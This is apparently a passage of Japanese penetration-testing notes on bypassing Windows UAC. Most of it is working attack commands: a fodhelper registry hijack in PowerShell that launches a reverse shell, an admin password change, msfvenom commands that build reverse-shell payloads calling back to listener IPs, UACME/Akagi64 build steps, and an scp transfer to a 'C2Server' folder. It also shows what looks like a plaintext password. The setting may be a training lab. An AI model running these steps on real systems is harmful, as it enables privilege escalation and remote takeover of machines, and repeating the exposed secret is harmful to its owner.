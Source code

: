   ![image-20230106081939053](img/Windows/UACByPass/image-20230106081939053.png)

  ![](img/UACByPass/image-20230106081939053-1673224430178-20.png)

  パスワード変更もできることを確認する
  
  ```
  net user admin Ev!lpass
  ```
  
* powershellで実行するパターン（リバースシェル実行版）

  ```
  New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
  New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
  Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "cmd.exe /c start C:\Users\Administrator\rev_1234.exe" -Force
  Start-Process "C:\Windows\System32\fodhelper.exe"
  Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
  ```

  ※リバースシェルの実行時のコマンドの記載に注意

  ```
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.131 LPORT=12345 -f exe > rev_12345.exe
  ```

  

### UACME

https://github.com/hfiref0x/UACME

3. UACMeのリポジトリをクーロンする
     * ※masterブランチではなく、v3.2.xのブランチを使用すること

       ![image-20230114124559887](img/UACByPass/image-20230114124559887.png)
       
     * ※Akagi64.exeのコンパイル時はvisual studioのバージョンにあったSDKをプロパティから設定すること
     
       ![image-20230114124611192](img/UACByPass/image-20230114124611192.png)
     
  4. UAC bypass用のリバースシェルを作成する

     ```plaintext
     msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.17.20.12 LPORT=10010 -f exe > rev_10010_iga.exe
     ```
     
  5. Akagi64.exeとリバースシェルを配送する

     ```plaintext
     # kali
     /home/kali/Documents/tuikakensyu
     scp Akagi64.exe  test-student2@172.17.20.12:~/C2Server/igarashi/
     JwErS2wBLpnSr2G6RYR7Gvb9aWMechni
     